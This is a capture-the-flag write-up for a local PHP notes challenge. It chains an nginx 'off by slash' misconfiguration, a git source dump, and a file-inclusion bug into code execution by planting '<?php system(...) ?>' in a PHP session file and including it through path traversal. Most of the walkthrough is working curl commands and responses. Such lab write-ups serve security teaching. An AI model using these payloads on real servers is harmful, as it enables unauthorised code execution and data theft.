

# Micro notes

## Summary

Flag: `UAD360{Ng1nX_Ft_Lf1-S3sS10n_1}`

Description: We have hired a new employee, even though he likes PHP. We have asked him to make a website for a client with microservices that is all the rage.

Hint: To get flag execute `/readflag`

Run: `REACT_APP_BACKEND_URL=http://localhost docker compose up --build`

## Write-up

We can create and deletes on the website, here is how it looks like:



If we look at the requests it makes, there is an endpoint `/api/note.php`. Moreover, it seems that there are two different servers:

The root page seems like a nginx serving an Express page:
```
curl -v http://localhost/
*   Trying ::1:80...
* Connected to localhost (::1) port 80 (#0)
> GET / HTTP/1.1
> Host: localhost
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.21.6
< Date: Sun, 22 May 2022 20:37:03 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 1614
< Connection: keep-alive
< X-Powered-By: Express
< Access-Control-Allow-Origin: *
< Access-Control-Allow-Methods: *
< Access-Control-Allow-Headers: *
< Accept-Ranges: bytes
< ETag: W/"64e-5sdfSD1Jewe13U6wLLZHrH/0g/Q"
< Vary: Accept-Encoding
<
```

On the other hand the api seems like an Apache:
```
curl -v http://localhost/api/
*   Trying ::1:80...
* Connected to localhost (::1) port 80 (#0)
> GET /api/ HTTP/1.1
> Host: localhost
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< Server: nginx/1.21.6
< Date: Sun, 22 May 2022 20:38:53 GMT
< Content-Type: text/html; charset=iso-8859-1
< Content-Length: 272
< Connection: keep-alive
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at backend Port 80</address>
</body></html>
* Connection #0 to host localhost left intact
```

We can conclude that there is an nginx proxy redirecting connections to different servers. Checking most common [Nginx missconfigurations]((https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/)) looks like it's vulnerable to "Off by slash" with `http://localhost/api../` because it returns apache index page.

Knowing that we enumerate hidden directories until we find `.git`. Using [git dumper](https://github.com/arthaud/git-dumper) we get the source code of the api:
```
python3 git_dumper.py http://localhost/api../.git ./api
```

Doing some code review we find a parameter vulnerable to LFI:
```php
function getIndex($id)
{
    $file = getenv('NOTES_DIR') . $id;
    
    if(!file_exists($file))
    {
        return ["error" => "Could not find that note"];
    } 

    $note = file_get_contents($file);
    
    /* I always thought that making it modular was cool */
    if(isset($_GET['filter']))
    {
        include(__DIR__ . '/custom_filters/' . $_GET['filter']);
        $note = content_filter($note);
    }

    return ["message" => "Note retrieved successfully", "content" => $note];
}
```

We need to upgrade to RCE from LFI. However we can't do log poisoning because how docker logs work.

Luckily there is another endpoint we can use to inject arbitrary content into our session.

With all that we just need to exploit it.

* First we need to create a note:
    ```
    curl -X POST -d '{"content": "foo"}' http://localhost/api/note.php
    {"id":"dce0e9145c9e422cd43878ae0032ab24","message":"Note created at successfully"}
    ```

* Then we inject PHP code in the session:
    ```
    curl -v "http://localhost/api/set_theme.php?theme=<?php+system('/readflag');?>"
    *   Trying ::1:80...
    * Connected to localhost (::1) port 80 (#0)
    > GET /api/set_theme.php?theme=<?php+system('/readflag');?> HTTP/1.1
    > Host: localhost
    > User-Agent: curl/7.74.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Server: nginx/1.21.6
    < Date: Sun, 22 May 2022 20:51:10 GMT
    < Content-Type: text/html; charset=UTF-8
    < Content-Length: 0
    < Connection: keep-alive
    < X-Powered-By: PHP/7.2.34
    < Set-Cookie: PHPSESSID=f976c3501e1f52f9ca042cae167a8867; path=/
    < Expires: Thu, 19 Nov 1981 08:52:00 GMT
    < Cache-Control: no-store, no-cache, must-revalidate
    < Pragma: no-cache
    < 
    * Connection #0 to host localhost left intact
    ```
* Lastly we execute the payload including both the note id and our session file which is located by default on `/tmp`:
    ```
    curl 'http://localhost/api/note.php?id=dce0e9145c9e422cd43878ae0032ab24&filter=../../../../../../../../tmp/sess_f976c3501e1f52f9ca042cae167a8867'
    theme|s:28:"UAD360{Ng1nX_Ft_Lf1-S3sS10n_1}";<br />
    <b>Fatal error</b>:  Uncaught Error: Call to undefined function content_filter() in /var/www/html/api/note.php:21
    Stack trace:
    #0 /var/www/html/api/note.php(78): getIndex('dce0e9145c9e422...')
    #1 {main}
    thrown in <b>/var/www/html/api/note.php</b> on line <b>21</b><br />
    ```